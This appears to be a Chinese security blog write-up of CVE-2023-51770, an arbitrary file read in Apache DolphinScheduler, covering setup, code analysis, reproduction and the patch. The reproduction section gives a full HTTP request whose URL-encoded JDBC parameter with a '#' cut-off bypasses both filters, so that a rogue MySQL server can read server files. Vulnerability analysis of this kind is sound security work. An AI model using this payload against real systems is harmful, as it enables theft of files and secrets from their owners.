

# Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770) - 先知社区

Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770)

- - -

# 漏洞描述

Apache Dolphinscheduler 中的任意文件读取漏洞。此问题会影响 Apache Dolphinescent：3.2.1 之前的版本。我们建议用户将 Apache Dolphinescent 升级到 3.2.1 版本，该版本可以修复此问题。

# 漏洞版本

version<3.2.1

# 环境搭建

官网下载源码及 bin 运行包

```plain
tar -xvzf apache-dolphinscheduler-*-bin.tar.gz
cd apache-dolphinscheduler-*-bin
bash ./bin/dolphinscheduler-daemon.sh start standalone-server
```

修改 jvm 在 standalone-server/bin/start.sh  
访问[http://localhost:12345/dolphinscheduler/ui](http://localhost:12345/dolphinscheduler/ui)  
admin/dolphinscheduler123

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172225-8dda3060-d488-1.png)

# 代码分析

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)

漏洞存在于 org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#getConnection

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172233-925bb26c-d488-1.png)

这里调用了MySQLDataSourceProcessor#getJdbcUrl函数将返回值作为jdbcUrl来进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172237-953724c6-d488-1.png)

进行了判断：如果请求存在 other 参数，就会进入到 MySQLDataSourceProcessor#transformOther

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172242-97d5fbbc-d488-1.png)

可以看到这里使用MySQLDataSourceProcessor#checkKeyIsLegitimate函数  
对 other 参数中的键名进行了过滤（第一层过滤：contains 判断），排除了黑名单内键名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172248-9b5cd670-d488-1.png)

黑名单如下：  
如果存在如下键名就会替换为 null

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172253-9e8af2aa-d488-1.png)

在键名过滤之后，还会追加 APPEND\_PARAMS 到 jdbcUrl 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172258-a1c80e6c-d488-1.png)

PPEND\_PARAMS 如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172303-a4430818-d488-1.png)

是将危险的 jdbcUrl 参数通过字符串的形式设置为 false，这样用户在这之前设置的危险参数都将被覆盖  
也就是在初始化 jdbcUrl 语句时进行了过滤（第二层过滤：属性覆盖）

# 漏洞复现

根据已知的 jdbcAttack 攻击绕过手段，全部过滤可以被绕过（绕过细节可以参考上一篇 Dataease jdbcUrl bypss 分析），请求如下

```plain
POST /dolphinscheduler/datasources/connect HTTP/1.1
Host: 172.18.178.167:12345
Content-Length: 407
Accept: application/json, text/plain, */*
sessionId: 338d2a47-ed61-4fc5-9868-5c8b0c57dec5
language: zh_CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://172.18.178.167:12345
Referer: http://172.18.178.167:12345/dolphinscheduler/ui/datasource
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: securityConfigType=PASSWORD; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5; language=zh_CN; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5
Connection: close

{"type":"MYSQL","label":"MYSQL","name":"t2","note":"","host":"172.18.176.1","port":3308,"principal":"","javaSecurityKrb5Conf":"","loginUserKeytabUsername":"","loginUserKeytabPath":"","mode":"","userName":"c","password":"","database":"d","connectType":"","other":{"%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#":"a"},"endpoint":"","MSIClientId":"","dbUser":"","datawarehouse":""}
```

已知在 jdbcurl 中可以通过#符号截断后续的字符为注释字符串  
jdbcurl 又可以解析参数名和参数值的 url 编码形式，那么就可以将 other 键名设置为

-   %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#  
    url 解码后为
-   allowLoadLocalInfile=true#

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172314-aafff850-d488-1.png)

此时 getJdbcUrl(connectionParam) 的返回值就变成了

```plain
jdbc:mysql://172.18.176.1:3308/d?%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#=a&allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false
```

%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65经过url编码不会在org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#checkKeyIsLegitimate触发contains函数，成功的绕过了第一层过滤  
然后可以看到 allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false 被#符号截断，成为了无效的注释字符，这样就可以绕过第二个过滤  
此时创建恶意 mysql 服务器，就可以利用 allowLoadLocalInfile 参数读取服务器任意文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172328-b372b84c-d488-1.png)

# 漏洞修复

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172333-b620a4dc-d488-1.png)

不再通过直接拼接 jdbcUrl 来进行过滤，而是将过滤属性作为 properties 来进行初始化（这样就无法通过注释绕过），修复了漏洞
